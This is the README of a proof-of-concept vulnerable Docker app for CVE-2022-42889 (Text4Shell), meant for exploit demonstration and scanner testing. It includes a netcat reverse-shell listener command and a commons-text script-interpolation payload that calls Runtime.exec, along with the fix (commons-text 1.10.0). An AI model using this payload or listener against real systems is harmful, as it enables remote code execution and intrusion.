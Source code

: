 # CVE-2022-42889 PoC Test Application
This is a vulnerable application developed as a Proof of Concept for the vulnerability [CVE-2022-42889](https://nvd.nist.gov/vuln/detail/CVE-2022-42889). 

# Vulnerable app set-up
You can use Docker to be able to run this PoC:

1. Docker build

```
   docker build --tag=text4shell-poc .
```

2. Docker run

```
   docker run -p 80:8080 text4shell-poc
```

3. Test the vulnerable app

```
   http://localhost/
```

# Attack Set-up

1. Reverse TCP listener
```
   sudo apt install rlwrap
```
```
   sudo rlwrap nc -nlvp 443
```
1. Payload
```
   ${script:javascript:java.lang.Runtime.getRuntime().exec'<Command to Execute>’)}
```

Recommended URL encoder for successful exploit demonstration: [https://www.urlencoder.org/](https://www.urlencoder.org/).

Reverse Shell generator [Generate Reverse Shell](https/www.revshells.com/)

Alternatively you can validate the effectiveness of scanning tools such as [text4shell-scan](https://github.com/securekomodo/text4shell-scan)



# The Fix
The fix for this is to update your instances of `commons-text` to versions `1.10.0` or later.


# Author
*Bryan Smith*
* Twitter: [https://twitter.com/securekomodo](https://twitter.com/securekomodo)
